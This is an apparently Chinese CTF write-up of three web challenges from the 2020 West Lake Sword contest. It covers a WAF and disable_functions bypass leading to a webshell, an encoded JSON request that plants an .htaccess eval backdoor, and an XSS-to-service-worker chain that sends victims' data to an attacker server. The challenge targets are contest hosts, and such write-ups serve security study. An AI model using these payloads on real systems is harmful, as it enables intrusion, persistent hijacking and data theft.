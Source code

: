 categories:
- 比赛
tags:
- web
- ctf
- wp
title: 2020西湖论剑
---
# 西湖论剑

## NewUpload

hint:
我装了宝塔 waf，apache 环境，自己本地配一套这种环境就知道怎么弄了。
看看宝塔自己装的 apache 有什么东西？

%00干掉宝塔waf





任意文件上传过滤php关键字
上传.htaccess绕过
普通的payload并不适用与php-fpm通信
在`/www/server/panel/vhost/apache`下发现php的解析方式

```
 #PHP
    <FilesMatch \.php$>
            SetHandler "proxy:unix:/tmp/php-cgi-74.sock|fcgi://localhost"
    </FilesMatch>
```

直接设置`SetHandler "proxy:unix:/tmp/php-cgi-74.sock|fcgi://localhost"`，访问我们上传的后门并不行，查了下资料发现php-fpm有security.limit_extensions限制了php脚本的后缀名，它的默认值是:` .php .phar`

所以我们上传phar文件getshell,getshell后发现，我们需要readflag而，命令执行函数都被干掉了，php版本是php 7.4.10




```
passthru,exec,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
```

把https://github.com/Explorersss/exploits中的脚本试过一边后都不行

但是这里php-fpm服务是通过socket文件通信的，我们可以直接打php-fpm绕过disable function

https://gist.githubusercontent.com/Explorersss/452ba2ed228dee841ac474b5d96f1581/raw/dc35576e0a4448b33da381fd2980d586aedc4e01/bypass_disable_function_by_fpm.php



## easyjson

```php
<?php
include 'security.php';

if(!isset($_GET['source'])){
    show_source(__FILE__);
    die();
}
$sandbox = 'sandbox/'.sha1($_SERVER['HTTP_X_FORWARDED_FOR']).'/';
var_dump($sandbox);
if(!file_exists($sandbox)){
    mkdir($sandbox);
    file_put_contents($sandbox."index.php","<?php echo 'Welcome To Dbapp OSS.';?>");
}
$action = $_GET['action'];
$content = file_get_contents("php://input");


if($action == "write" &&  SecurityCheck('filename',$_GET['filename']) &&SecurityCheck('content',$content)){
    $content = json_decode($content);
    $filename = $_GET['filename'];
    $filecontent = $content->content;
    $filename = $sandbox.$filename;
    file_put_contents($filename,$filecontent."\n Powered By Dbapp OSS.");
}elseif($action == "reset"){
    $files = scandir($sandbox);
    foreach($files as $file) {
        if(!is_dir($file)){
            if($file !== "index.php"){
                unlink($sandbox.$file);
            }
        }
    }
}
else{
    die('Security Check Failed.');
}
```



```
POST /?source=1&action=write&filename=index.php HTTP/1.1
Host: easyjson.xhlj.wetolink.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 439

{"\u0063\u006f\u006e\u0074\u0065\u006e\u0074":"\u0070\u0068\u0070\u005f\u0076\u0061\u006c\u0075\u0065\u0020\u0061\u0075\u0074\u006f\u005f\u0070\u0072\u0065\u0070\u0065\u006e\u0064\u005f\u0066\u0069\u006c\u0065\u0020\u0022\u002e\u0068\u0074\u0061\u0063\u0063\u0065\u0073\u0073\u0022\u000a\u0023\u003c\u003f\u0070\u0068\u0070\u0020\u0065\u0076\u0061\u006c\u0028\u0024\u005f\u0050\u004f\u0053\u0054\u005b\u0031\u005d\u0029\u003b\u003f\u003e"}
```

flag{a5db5397505f825334aa4dfc17d3bb9f}

## hardxss

在登入接口发现如下代码：

```javascript
callback = "get_user_login_status";
		auto_reg_var();
		if(typeof(jump_url) == "undefined" || /^\//.test(jump_url)){
			jump_url = "/";
		}
		jsonp("https://auth.hardxss.xhlj.wetolink.com/api/loginStatus?callback=" + callback,function(result){
			if(result['status']){
				location.href = jump_url;
			}
		})
		function jsonp(url, success) {
		    var script = document.createElement("script");
		    if(url.indexOf("callback") < 0){
		    	var funName = 'callback_' + Date.now() + Math.random().toString().substr(2, 5);
		    	url = url + "?" + "callback=" + funName;
		    }else{
		    	var funName = callback;
		    }
		    window[funName] = function(data) {
		        success(data);
		        delete window[funName];
		        document.body.removeChild(script);
		    }
		    script.src = url;
		    document.body.appendChild(script);
		}
		function auto_reg_var(){
			var search = location.search.slice(1);
			var search_arr = search.split('&');
			for(var i = 0;i < search_arr.length; i++){
				[key,value] = search_arr[i].split("=");
				window[key] = value;
			}
		}
```

利用jsonp任意xss

view-source:https://xss.hardxss.xhlj.wetolink.com/login?callback=jsonp(%22//ffffuck.free.beeceptor.com/%22);

利用Service Workers从xss.hardxss.xhlj.wetolink.com移动到auth.hardxss.xhlj.wetolink.com

https://xss.hardxss.xhlj.wetolink.com/login?callback=jsonp(%22//abcde.free.beeceptor.com/2%22);//

2:

```javascript
document.domain="hardxss.xhlj.wetolink.com";
a=document.createElement("iframe");
a.src="https://auth.hardxss.xhlj.wetolink.com";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/api/loginStatus?callback=self.importScripts('//serviceworker.free.beeceptor.com/exp.js');//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```

/:

```javascript
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<html><script>document.location.href="http://ccreater.top:60000/?"+document.location.search</script></html>',{headers: { 'Content-Type': 'text/html' }}));
});
```

![image5725](https://raw.githubusercontent.com/Explorersss/photo/master/20201015222800.png)

![image5832](https://raw.githubusercontent.com/Explorersss/photo/master/20201015222516.png)

详细说明见：http://blog.ccreater.top/2020/10/15/Service%20Worker/